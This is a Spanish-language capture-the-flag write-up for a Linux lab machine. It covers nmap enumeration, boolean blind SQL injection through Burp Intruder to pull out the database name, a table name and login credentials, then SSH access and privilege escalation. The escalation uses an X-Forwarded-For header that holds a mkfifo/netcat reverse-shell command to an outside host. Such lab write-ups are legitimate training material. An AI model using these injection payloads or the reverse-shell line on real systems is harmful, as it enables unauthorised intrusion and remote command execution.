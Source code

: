 #Linux #medium 
### nmap
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 20:02 EST
Nmap scan report for 10.10.64.85
Host is up (0.18s latency).
Not shown: 64902 closed tcp ports (reset), 631 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.21 seconds
```

### Ports: 22/ssh - 80/http

### Enumeración del puerto 80
vamos a intentar hacer una inyección sqli
![[Pasted image 20240612153922.png]]

![[Pasted image 20240612153925.png]]
parece que la pagina esta en mantenimiento. 

vamos a probar otras inyecciones diferentes
![[Pasted image 20240612153930.png]]

![[Pasted image 20240612153933.png]]

### Fuzzing con gobuster

![[Pasted image 20240612153938.png]]
parece que no tenemos ningún directorio que sea de ayuda. 

### sqli usando Burpsuite

```python
	'+and+substring(database(),1,1)="a"+#
```

vamos a interceptar una peticion con burpsuite
![[Pasted image 20240612153944.png]]

intruder
![[Pasted image 20240612153948.png]]

configuramos el payloads
![[Pasted image 20240612153951.png]]
obtenemos como respuesta 

```python
	username=kitty'+and+substring(database(),1,1)="m"+#&password=kitty
```

para la segunda posición obtenemos la letra "y"
![[Pasted image 20240612153958.png]]

para el tercer posición obtenemos la letra "w"
![[Pasted image 20240612154001.png]]
tenemos que hacer esto cambiando la posición hasta conseguir información sobre el nombre de la base de datos

usaremos este parametro para obtener informacion sobre las tablas

```python
	username=kitty'+and+substring((select+table_name+from+information_schema.tables+where+table_schema="mywebsite"+limit+0,1),1,1)="a"+#&password=kitty
```

el primer resultado nos da la letra "s"
![[Pasted image 20240612154009.png]]

ejecutamos el ataque cambiando la posición, en este caso nos da la letra "i"
![[Pasted image 20240612154013.png]]
tenemos que hacer esto hasta sacar el nombre de la tabla

```python
	username=kitty'+AND+SUBSTRING((SELECT+username+from+siteusers+LIMIT+0,1),1,1)="a"+#&password=kitty
```

sacamos carácter de la posición 4 "g"  
![[Pasted image 20240612154019.png]]
hacemos esto desde la posición 1 hasta conseguir todos los caracteres

```python
	username: kitty
	password: L0ng_Liv3_kittY
```

### ssh

![[Pasted image 20240612154025.png]]

### Escalada de Privilegios

![[Pasted image 20240612154029.png]]
parece que este script hace un guardado en logged de los intentos de sqli que se hacen en el panel de login de parte del desarrolador

conexion por ssh haciendo un port forwarding  

![[Pasted image 20240612154032.png]]
### localhost:8080

![[Pasted image 20240612154036.png]]
tenemos conexión por el puerto 8080 en el que vemos la web de parte del desarrollador

### Burpsuite
usamos la inyeccion sqli para que esta informacion se guarde en el archivo logged y agregamos la linea

```python
	X-Forwarded-For: $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.157.7 7890 >/tmp/f)
```

![[Pasted image 20240612154043.png]]
esperamos un rato a que se haga el guardado.

### WE ARE ROOT

![[Pasted image 20240612154047.png]]